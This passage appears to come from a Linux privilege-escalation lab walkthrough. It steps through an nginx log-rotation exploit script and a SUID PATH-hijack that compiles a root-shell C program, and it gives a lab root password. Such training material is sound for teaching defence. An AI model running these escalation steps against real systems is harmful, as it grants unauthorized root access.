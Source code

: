 1. In command prompt type: **dpkg -l | grep nginx**

2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

### Exploitation

**Terminal** 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: **su root**

2. The root password is **password123**

3. Once escalated to root, in command prompt type: **su -l www-data**

4. In command prompt type: **/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log**

5. At this stage, the system waits for logrotate to execute. In order to  speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

**Terminal** 2

1. Once logged in, type: **su root**

2. The root password is **password123**

3. As root, type the following: **invoke-rc.d nginx rotate >/dev/null 2>&1**

4. Switch back to the previous terminal.

**Terminal** 1

1. From the output, notice that the exploit continued its execution.

2. In command prompt type: **id**

# SUID (Environment Variables #1)

### Detection

1. In command prompt type: **find / -type f -perm -04000 -ls 2>/dev/null**

2. From the output, make note of all the SUID binaries.

3. In command prompt type: **strings /usr/local/bin/suid-env**

4. From the output, notice the functions used by the binary.

### Exploitation

1. In command prompt type:

**echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c**

2. In command prompt type: **gcc /tmp/service.c -o /tmp/service**

3. In command prompt type: **export PATH=/tmp:$PATH**

4. In command prompt type: **/usr/local/bin/suid-env**
